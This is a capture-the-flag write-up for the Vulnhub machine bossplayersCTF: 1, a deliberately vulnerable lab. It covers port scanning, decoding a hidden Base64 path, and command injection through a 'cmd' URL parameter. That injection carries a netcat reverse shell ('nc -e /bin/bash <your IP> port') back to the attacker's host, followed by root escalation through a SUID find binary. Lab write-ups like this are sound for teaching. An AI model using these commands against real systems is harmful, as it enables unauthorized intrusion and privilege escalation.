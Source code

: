 # CTF-Write-up

## Vulnhub -   bossplayersCTF: 1

##### URL: https://www.vulnhub.com/entry/bossplayersctf-1,375/

##### Created by _https://www.vulnhub.com/author/cuong-nguyen,649/_

![logo](https://user-images.githubusercontent.com/20625004/161815571-55e220df-8854-4ac1-8d5d-bd3ad6aa0339.PNG)

First run ``nmap`` to identify open ports.

![nmap](https://user-images.githubusercontent.com/20625004/164456576-e175cdb0-b5bb-42e5-94ed-2458c8a1e453.PNG)

Lets access port ``80``.

![80](https://user-images.githubusercontent.com/20625004/164456674-75417553-5d59-498a-b5c2-e0fdfe2fde02.PNG)

Nothing there, but lets check also ``view page source`` of the page, and we found a comment.

![comment](https://user-images.githubusercontent.com/20625004/164456938-5726a38f-2972-4193-8318-1894852238f5.PNG)

It seemed like Base64, so decode it using ``base64`` command. The output shows another encodeded text, it seems like Base64, so decoded it again, now
we found something interesting a path.

![base64](https://user-images.githubusercontent.com/20625004/164457930-258c0850-2322-4a66-b4f6-089e0820d2e5.PNG)

Access the new page.

![php](https://user-images.githubusercontent.com/20625004/164458185-1d8e0e27-d26f-4ef2-ae3e-c399dd7f73b9.PNG)

It seems to be a to-do list, from the list we understand that ``ping`` and ``privilege escalation`` are not fixed yet.
``ping`` from the list indicates a command injection might exist, lets use the ``cmd`` parameter to see.

![ping](https://user-images.githubusercontent.com/20625004/164458891-6d15bf00-4168-4e1e-8b42-01f80d78a9eb.PNG)


![ping1](https://user-images.githubusercontent.com/20625004/164459059-6e9237ab-4c1c-499c-8164-fb41758866ff.PNG)

Success command injection is working. The ``cmd`` parameter is working and we added ``id`` and ``ls -l`` commands as parameter values.

The next step here is to obtain shell access.

Open a listener ``nc -lvnp port``, then we enter in the url the command ``nc -e /bin/bash <your IP> port`` this will open a shell.

``http://<Target IP>/workinginprogress.php?cmd=nc -e /bin/bash <your IP> port``

![access](https://user-images.githubusercontent.com/20625004/164460639-acea9da4-bbb1-43c3-94df-83ffe895ea64.PNG)

Back on our listener we have successfully obtained a shell and entered the system.

You can use ``python -c 'import pty; pty.spawn("/bin/bash")'`` command to upgrade the dumb shell.

![system1](https://user-images.githubusercontent.com/20625004/164462346-a9ce9a02-a471-4c6a-ba3a-fe052331ac66.PNG)

After enumaration and searching, we search for ``SUID (Set owner User ID up on execution)`` permissions.

![find](https://user-images.githubusercontent.com/20625004/164463852-415044ae-439e-4530-a4cd-7fbbb6e72c2f.PNG)

Now we enumerated the target machine for the list of commands that the user is allowed to execute without root permissions, and we found that the ``find`` command can be executed with ``root`` privileges.

![escalate](https://user-images.githubusercontent.com/20625004/164465394-5dfa66a3-4e37-4ff7-86a3-210d80d7a290.PNG)

With help from ``https://gtfobins.github.io/gtfobins/find/`` we have escalated our privileges and on ``root`` folder you will find the flag in ``base64`` encoding.

![flag](https://user-images.githubusercontent.com/20625004/164465724-a240506e-cffb-4293-be07-9be6f535275a.PNG)









